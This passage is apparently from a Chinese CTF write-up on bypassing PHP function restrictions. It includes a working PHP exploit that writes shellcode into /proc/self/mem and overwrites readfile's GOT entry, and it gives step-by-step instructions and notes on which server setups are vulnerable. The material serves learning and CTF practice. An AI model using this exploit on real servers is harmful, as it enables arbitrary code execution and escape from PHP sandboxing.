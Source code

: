 进行读取

```php
a=show_source("/tmp/sna");
```

![image-20220326222152682](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271910981.png)

拿到flag。



## 向/proc/self/mem写shellcode劫持got表

参考之前对[宝塔rsap绕过的文章](https://xz.aliyun.com/t/7990)，直接往/proc/self/mem写shellcode劫持got表，看起来也是可以的。

测试用php-cli也确实是可以覆盖的，exp如下：

```
<?php
    function get_p64($magic){
       $tmp="";
       for($i=0;$i<8;$i++){
       $n_tmp=($magic>>($i*8))&0xff;
       $tmp.=chr($n_tmp); 
      }
      return $tmp;
    }
    $leak_file = fopen('/proc/self/maps', 'r');
    $base_str = fread($leak_file,12);
    $pie_base= hexdec($base_str);
    echo $pie_base;
    $mem = fopen('/proc/self/mem', 'wb');

    $shell = $pie_base + 0x0E6800; 
    fseek($mem, $shell);
    $a="jgH\xb8/readflaPH\x89\xe71\xd21\xf6j;X\x0f\x05";
    fwrite($mem,  $a);
    fseek($mem,$pie_base+0x0068FE68);
    fwrite($mem,get_p64($shell));
    readfile("123","r");
?>
```

然而测试apache的时候，发现没有权限。虽然/proc/self/mem是www-data的，权限也是600，但是php就是没权限获得句柄。。。
[![img](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203272020167.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20201215165407-175276a0-3eb3-1.jpg)

后来研究发现，apache是root运行的父进程，然后 setuid将子进程降权为www-data，/proc/self/目录属于root用户，因此子进程无权限读写。如果是nginx+php，对于低版本的php-fpm，www-data权限的子进程，/proc/self/目录属于www用户可以读写，[tsrc这篇文章](https://security.tencent.com/index.php/blog/msg/166)测试结果是php\<5.6版本是可以使用GOT表劫持。

写一下劫持GOT表的步骤，这里直接写shellcode：

1. 读/proc/self/maps找到php和libc在内存中的基址
2. 解析/proc/self/exe找到php文件中readfile@got的偏移
3. 找个能写的地址写shellcode
4. 向readfile@got写shellcode地址覆盖
5. 调用readfile
